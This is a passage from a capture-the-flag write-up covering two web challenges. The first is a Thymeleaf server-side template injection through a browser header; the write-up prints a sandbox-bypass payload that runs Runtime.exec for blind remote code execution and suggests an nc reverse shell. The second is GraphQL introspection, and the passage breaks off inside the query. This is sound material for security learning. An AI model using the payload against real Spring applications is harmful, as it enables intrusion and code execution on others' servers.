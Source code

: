 # Konoha 
## overview

Konoha is a simple thymeleaf ssti challenge. 

``` html
<div class="detail-item" th:unless="${os == null}">
    <span class="detail-label">Logged in via :</span>
    <span th:text="@{'Using __${os}__ OS'}"></span>
</div>
<div class="detail-item" th:unless="${os != null}">
   <span class="detail-label">Logged in via :</span>
  <span> couldn't get os</span>
 </div>
```
the os variable is set via the header "sec-ch-ua-platform"

## exploit

thymeleaf provides a pretty strong sandbox for evaluating expressions.
but there have been a lot of ways to bypass it 

i found this report interesting:
https://modzero.com/en/blog/spring_boot_ssti/

read it to undertstand how to bypass thymeleaf sandbox


there is another exploit but its too complictated so i'll leave it here :

[complex solution](https://github.com/Ghr4b/SummerRush/blob/main/solve.txt)
credit : oxfun

my idea is similar the one in the report:

```
 "".class.forName("org.apache.commons.lang3.reflect.MethodUtils").invokeMethod("".class.forName("org.apache.commons.lang3.reflect.MethodUtils").invokeStaticMethod("".class.forName("java.lang.Runtime"),"getRuntime"), "exec", "whoami")
```
this gives us blind rce

then all we need it a nc reverse shell to get our flag

# graphic 5atir 

## overview
this challenge is quite interesting.
its a graphql endpoint that has information disclosure vulnerability as well as insecure random number generation.

## exploit
first we need to know everything about the endpoint, every type, every field, every argument, query mutation, etc.
this is quite simple as introspection is enabled by default and there is a lot of queries online that can help us with that.
``` graphql
  #Full introspection query

query IntrospectionQuery {
    __schema {
        queryType {
            name
        }
```